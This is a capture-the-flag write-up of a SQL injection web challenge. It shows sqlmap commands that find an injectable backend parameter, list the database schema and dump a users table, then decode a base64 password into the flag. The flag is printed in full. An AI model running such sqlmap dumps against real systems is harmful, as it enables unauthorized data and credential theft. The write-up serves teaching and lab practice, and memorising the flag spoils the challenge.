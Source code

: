 # Statement

¿Cuál es **esa qlebra**? Para eso tenemos un blog en el cual identificamos varios tipos de reptiles. ¿Será que puedas encontrar algo más allá de animales?

# Provided Files

N/A

# Procedure

By entering the website provided, we can see that there is a "snake catalog" which just have 3 snake types, and each one of this can be showed depending on the url attribute `snake_id`. By the statement and the website, we can see that the main theme in this challenge is SQL, probably SQL injection through one of the parameters.

![Step 1](https://res.cloudinary.com/dmrgfufa4/image/upload/v1604184023/writeups/HackademyCTF_v1/web_4_1.png)

Naturally, we could thing that `snake_id` would be the injectable parameter, but after trying to exploit it with `sqlmap` (one of the most popular tools for sql injection testing) we can see that **this attribute is not injectable**.

After investigating a little more, we can see that this is only the frontend of distributed application. This can be proved by opening the Network tab, and see that with each request to the main url, another request to another host is triggered, probably the backend. This request look like the following:

```
Request URL: http://localhost:5006/snakes?id=2
Request Method: GET
```

![Step 2](https://res.cloudinary.com/dmrgfufa4/image/upload/v1604184023/writeups/HackademyCTF_v1/web_4_2.png)

So if we test this new url inside the `sqlmap` we can see that the attribute `id` is injectable

```bash
# We use localhost for local testing, but during the event it was the CTF server IP
sqlmap -u http://localhost:5006/snakes?id=1
```

![Step 3](https://res.cloudinary.com/dmrgfufa4/image/upload/v1604184023/writeups/HackademyCTF_v1/web_4_3.png)
![Step 4](https://res.cloudinary.com/dmrgfufa4/image/upload/v1604184023/writeups/HackademyCTF_v1/web_4_4.png)

After verifying that the `id` attribute was injectable, we can get which databases and tables does the app has access to.

```bash
# List all schemas available
sqlmap -u http://localhost:5006/snakes?id=1 --schema
```

Output
```bash
Database: snakes
Table: users
[3 columns]
+----------|---------------+
| Column   | Type          |
+----------|---------------+
| id       | int(11)       |
| password | varchar(1024) |
| username | varchar(1024) |
+----------|---------------+
```

```bash
# Dump the content of the table "users" inside the database "snakes"
sqlmap -u http://localhost:5006/snakes?id=1 -D snakes -T users --dump
```

Output
```bash
Database: snakes
Table: users
[1 entry]
+----|------------------------------------------------------------------------------------------------------|--------------+
| id | password                                                                                             | username     |
+----|------------------------------------------------------------------------------------------------------|--------------+
| 1  | bWJsdWV7M3N0M18zcjRfZDNfbDBzX3IzdDBzX200c19kMWYxYzFsM3MuM2NoYXQzX3VuMV9tMWxsM3JfcDRyNF9mM3N0M2o0cn0= | secret_admin |
+----|------------------------------------------------------------------------------------------------------|--------------+
```

After obtaining the password of the `secret_admin` user, we can see that this is an encoded string. After examining the string, we can see that it ends in an equal sign, and contains lowercase and uppercase characters so probably the password is encoded with `base64`.

If we decode this string, we will obtain the flag

``` bash
echo "bWJsdWV7M3N0M18zcjRfZDNfbDBzX3IzdDBzX200c19kMWYxYzFsM3MuM2NoYXQzX3VuMV9tMWxsM3JfcDRyNF9mM3N0M2o0cn0=" | base64 -d
```

# Flag

`mblue{3st3_3r4_d3_l0s_r3t0s_m4s_d1f1c1l3s.3chat3_un1_m1ll3r_p4r4_f3st3j4r}`

# Try it yourself!

As this is a more complex challenge, we need to orchestrate a couple of containers at the same time, this is why we use `docker-compose`. This tool will use the `docker-compose.yml` that is in this folder, it is not part of the challenge itself.

```bash
docker-compose up -d
```
